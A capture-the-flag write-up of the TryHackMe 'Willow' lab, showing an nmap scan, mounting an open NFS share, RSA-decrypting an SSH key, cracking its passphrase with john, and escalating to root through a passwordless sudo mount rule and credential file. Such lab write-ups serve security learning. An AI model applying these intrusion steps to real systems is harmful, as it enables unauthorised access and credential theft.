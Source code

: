```yaml
---
title : Willow - Writeup
---
```


_**Nov 08, 2020**_

[Willow](https://tryhackme.com/room/willow) Writeup

## Nmap Scan :

```
bvr0n@kali:~/CTF/THM/Willow$ nmap -sC -sV 10.10.58.196
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 6.7p1 Debian 5 (protocol 2.0)
| ssh-hostkey: 
|   1024 43:b0:87:cd:e5:54:09:b1:c1:1e:78:65:d9:78:5e:1e (DSA)
|   2048 c2:65:91:c8:38:c9:cc:c7:f9:09:20:61:e5:54:bd:cf (RSA)
|   256 bf:3e:4b:3d:78:b6:79:41:f4:7d:90:63:5e:fb:2a:40 (ECDSA)
|_  256 2c:c8:87:4a:d8:f6:4c:c3:03:8d:4c:09:22:83:66:64 (ED25519)
80/tcp   open  http    Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Recovery Page
111/tcp  open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  2,3,4       2049/tcp   nfs
|   100003  2,3,4       2049/tcp6  nfs
|   100003  2,3,4       2049/udp   nfs
|   100003  2,3,4       2049/udp6  nfs
|   100005  1,2,3      33045/udp   mountd
|   100005  1,2,3      50247/tcp   mountd
|   100005  1,2,3      53104/udp6  mountd
|   100005  1,2,3      58466/tcp6  mountd
|   100021  1,3,4      35887/udp6  nlockmgr
|   100021  1,3,4      36539/tcp   nlockmgr
|   100021  1,3,4      45263/tcp6  nlockmgr
|   100021  1,3,4      45612/udp   nlockmgr
|   100024  1          42988/tcp   status
|   100024  1          47886/tcp6  status
|   100024  1          53120/udp6  status
|   100024  1          57397/udp   status
|   100227  2,3         2049/tcp   nfs_acl
|   100227  2,3         2049/tcp6  nfs_acl
|   100227  2,3         2049/udp   nfs_acl
|_  100227  2,3         2049/udp6  nfs_acl
2049/tcp open  nfs_acl 2-3 (RPC #100227)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## RPC Enum :

```
bvr0n@kali:~/CTF/THM/Willow$ sudo showmount -e 10.10.58.196
[sudo] password for bvr0n: 
Export list for 10.10.58.196:
/var/failsafe *
```
Apparently we have a shared folder, Let's mount it :
```
bvr0n@kali:~/CTF/THM/Willow$ sudo mount -t nfs 10.10.170.153:/var/failsafe /mnt/ewf/ -nolock
bvr0n@kali:/mnt/ewf$ cat rsa_keys 
Public Key Pair: (23, 37627)
Private Key Pair: (61527, 37627)
```

## Web Enum :

After visiting the web page we can see a lot of encoded numbers `(HEX)`, When we throw it all in [CyberChef](https://gchq.github.io/CyberChef/) we get this :
```
Hey Willow, here's your SSH Private key -- you know where the decryption key is!
```

Now the shared folder make sens, it's a private key, let's get it!! i grabbed all the numbers after the message we retireved and head here [RSA Calculator](https://www.cs.drexel.edu/~jpopyack/Courses/CSP/Fa17/notes/10.1_Cryptography/RSA_Express_EncryptDecrypt_v2.html) :

The modulus `N` was `37627` & The modulus `d` was `61527` (from the shared folder).

After grabbing the `RSA_Private_KEY`, now all we need is the password ! CRACKING TIME.

```
bvr0n@kali:~/CTF/THM/Willow$ /usr/share/john/ssh2john.py id_rsa > priv_rsa
bvr0n@kali:~/CTF/THM/Willow$ sudo john priv_rsa --wordlist=/home/bvr0n/Documents/rockyou.txt
[sudo] password for bvr0n: 
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
**********       (id_rsa)
```

And we got the password for SSH, Let's login as `Willow`.

In the home directory there is a image that contains the flag, Let's get it :
```
willow@willow-tree:~$ cat user.jpg | base64
bvr0n@kali:~/CTF/THM/Willow$ cat b64_image | base64 -d > user.jpg
```
I took the original image and turn it into `base64`, then i created a new file and put it inside and decrypt it.

## Internal Enum :

Looks like we can mount as root without a password :
```
willow@willow-tree:/mnt/creds$ sudo -l
Matching Defaults entries for willow on willow-tree:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User willow may run the following commands on willow-tree:
    (ALL : ALL) NOPASSWD: /bin/mount /dev/*
```
I checked the `/dev`, this is where filesystems show up, i noticed a pretty weird one :

```
willow@willow-tree:/dev$ ls
autofs           dri            kmsg                null    shm       
block            fb0            log                 port    snapshot  
btrfs-control    fd             loop-control        ppp     snd       
char             full           mapper              psaux   stderr    
console          fuse           mcelog              ptmx    stdin     
core             ******_******  mem                 p
```
```
willow@willow-tree:/mnt$ sudo mount /dev/******_****** /mnt/creds/
willow@willow-tree:/mnt$ cd /mnt/creds/
willow@willow-tree:/mnt/creds$ cat creds.txt 
root:7QvbvB********
willow:U0ZZJL********
```

And we got ROOT.

For the root flag, i struggled at first but apparently it was inside the image we retireved earlier -_-
```
bvr0n@kali:~/CTF/THM/Willow$ steghide extract -sf user.jpg 
Enter passphrase: 
wrote extracted data to "root.txt".
```

<br>
best regards

[bvr0n](https://github.com/bvr0n)


<br>
[back to main()](https://bvr0n.github.io/)

<br>
